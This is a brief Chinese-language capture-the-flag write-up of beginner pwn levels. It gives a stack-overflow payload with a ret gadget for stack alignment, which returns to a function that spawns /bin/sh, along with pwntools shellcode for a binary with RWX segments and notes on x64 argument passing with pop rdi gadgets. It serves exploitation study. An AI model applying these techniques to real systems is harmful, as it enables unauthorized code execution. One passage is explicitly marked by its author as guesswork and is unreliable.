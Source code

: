 ### level0

 --curry

> 000400596 callsystem      proc near
> .text:0000000000400596 ; __unwind {
> .text:0000000000400596                 push    rbp
> .text:0000000000400597                 mov     rbp, rsp
> .text:000000000040059A                 mov     edi, offset command ; "/bin/sh"
> .text:000000000040059F                 call    _system
> .text:00000000004005A4                 pop     rbp
> .text:00000000004005A5                 retn
> .text:00000000004005A5 ; } // starts at 400596

__一个简单的栈溢出，但是遇到一些小问题
直接使用payload=b'a'\*128+b'a'\* 8+p64(callsys_addr)会打不通
这个需要涉及到ubuntu调用system需要对齐栈的问题，需附加一个ret来保持堆栈平衡，比如我随便找了一个ret地址0x4005C5，payload变成b'A' * (0x80 + 0x8) + p64(0x4005C5) + p64(callsys_addr)。这样就能打得通了
另外，直接将callsys_adrr改为59A也能正常运行__

以下内若为瞎猜的：
如果返回地址是call XXX（或push bp，mov bp,sp）需要平衡
如果是普通语句可以不平衡

### level1

checksec 时发现__RWX:      Has RWX segments__
这时考虑shellcode = asm(shellcraft.sh())

### level2_x64
64位的传递参数通过rdi
利用pop rdi;ret来实现传参
前6个参数依次存放于 rdi、rsi、rdx、rcx、r8、r9 寄存器中
第7个以后的参数存放于栈中
